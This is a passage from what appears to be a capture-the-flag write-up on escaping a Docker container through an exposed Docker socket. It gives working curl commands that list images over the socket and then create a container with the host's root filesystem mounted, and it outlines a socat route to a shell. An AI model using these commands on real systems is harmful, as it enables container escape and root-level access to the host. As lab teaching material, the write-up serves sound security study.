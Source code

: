 I’ll run the command from the history, and it works:

```

root@2d24bf61767c:~# curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
[{"Containers":-1,"Created":1590787186,"Id":"sha256:a24bb4013296f61e89ba57005a7b3e52274d8edd3ae2077d04395f806b63d83e","Labels":null,"ParentId":"","RepoDigests":null,"RepoTags":["sandbox:latest"],"SharedSize":-1,"Size":5574537,"VirtualSize":5574537},{"Containers":-1,"Created":1588544489,"Id":"sha256:188a2704d8b01d4591334d8b5ed86892f56bfe1c68bee828edc2998fb015b9e9","Labels":null,"ParentId":"","RepoDigests":["<none>@<none>"],"RepoTags":["<none>:<none>"],"SharedSize":-1,"Size":1056679100,"VirtualSize":1056679100}]

```

This command it basically the equivalent of running `docker ps`.

### Strategy

The next step is to start a container with the root files system mapped into it and then to run commands in that container getting access to the root file system.

The challenge here is just reading the [API docs](https://docs.docker.com/engine/api/v1.30/) and figuring out which to use and what parameters are required.

I found three strategies that worked:
1. Command set at container creation:
   - Create a container with the host filesystem mapped into it and a command;
   - Start the container;
   - Get command results from Docker logs;
2. Container with `exec`:
   - Create a container;
   - Start the container;
   - Create an `exec` instance;
   - Start `exec` instance;
3. Container + `socat` = shell:
   - Create a container;
   - Start the container;
   - Attach `socat` to the container to get a shell

### Run Commands w/ Host FS [Method #1]

#### Create Container

I’ll start with the `/container/create` [API call](https://docs.docker.com/engine/api/v1.30/#operation/ContainerCreate). It takes a POST, with a ton of potential arguments. I had to play around with this a bunch to get something that worked, but the command I ended up using was:

```

root@2d24bf61767c:~# curl --unix-socket /var/run/docker.sock -s -X 'POST' -H 'Content-Type: application/json' --data-binary '{"Image": "sandbox:latest","HostConfig": {"Binds": ["/:/rootfs"]}, "Cmd": ["/bin/sh", "-c", "ls -l /rootfs/root/"], "Tty": true}' http://localhost/containers/create
{"Id":"0af5539d4b1cf764a116301fb13938cb361cd0386b6fbc4fb750661d1d226b36","Warnings":[]}

```
